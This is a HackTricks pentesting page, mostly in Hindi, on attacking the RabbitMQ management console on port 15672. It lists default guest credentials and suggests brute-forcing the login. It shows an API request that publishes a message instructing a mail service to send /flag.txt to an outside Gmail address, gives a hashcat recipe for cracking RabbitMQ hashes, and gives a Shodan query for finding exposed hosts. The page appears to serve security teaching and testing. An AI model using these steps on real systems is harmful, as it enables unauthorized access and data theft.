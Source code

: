 # 15672 - Pentesting RabbitMQ Management

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## Basic Information

आप RabbitMQ के बारे में अधिक जान सकते हैं [**5671,5672 - Pentesting AMQP**](5671-5672-pentesting-amqp.md)।\
इस पोर्ट में आप RabbitMQ प्रबंधन वेब कंसोल पा सकते हैं यदि [प्रबंधन प्लगइन](https://www.rabbitmq.com/management.html) सक्षम है।\
मुख्य पृष्ठ ऐसा दिखना चाहिए:

![](<../.gitbook/assets/image (336).png>)

## Enumeration

डिफ़ॉल्ट क्रेडेंशियल "_**guest**_":"_**guest**_" हैं। यदि ये काम नहीं कर रहे हैं, तो आप [**लॉगिन को ब्रूट-फोर्स करने**](../generic-methodologies-and-resources/brute-force.md#http-post-form) का प्रयास कर सकते हैं।

इस मॉड्यूल को मैन्युअल रूप से शुरू करने के लिए, आपको निष्पादित करने की आवश्यकता है:
```
rabbitmq-plugins enable rabbitmq_management
service rabbitmq-server restart
```
एक बार जब आप सही तरीके से प्रमाणित हो जाते हैं, तो आप प्रशासन कंसोल देखेंगे:

![](<../.gitbook/assets/image (441).png>)

इसके अलावा, यदि आपके पास मान्य क्रेडेंशियल्स हैं, तो आप `http://localhost:15672/api/connections` की जानकारी को दिलचस्प पाएंगे।

यह भी ध्यान दें कि इस सेवा के API का उपयोग करके **क्यू के अंदर डेटा प्रकाशित करना** संभव है, जैसे कि एक अनुरोध:
```bash
POST /api/exchanges/%2F/amq.default/publish HTTP/1.1
Host: 172.32.56.72:15672
Authorization: Basic dGVzdDp0ZXN0
Accept: */*
Content-Type: application/json;charset=UTF-8
Content-Length: 267

{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"zevtnax+ppp@gmail.com\", \"attachments\": [{\"path\": \"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
```
## हैश क्रैकिंग
```bash
echo <base64 rabbit mq hash> | base64 -d | xxd -pr -c128 | perl -pe 's/^(.{8})(.*)/$2:$1/' > hash.txt
hashcat -m 1420 --hex-salt hash.txt wordlist
```
### Shodan

* `port:15672 http`

<figure><img src="../.gitbook/assets/i3.png" alt=""><figcaption></figcaption></figure>

**बग बाउंटी टिप**: **साइन अप करें** **Intigriti** के लिए, एक प्रीमियम **बग बाउंटी प्लेटफॉर्म जो हैकर्स द्वारा, हैकर्स के लिए बनाया गया है**! आज ही [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) पर हमारे साथ जुड़ें, और **$100,000** तक की बाउंटी कमाना शुरू करें!

{% embed url="https://go.intigriti.com/hacktricks" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें PRs को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।

</details>
{% endhint %}
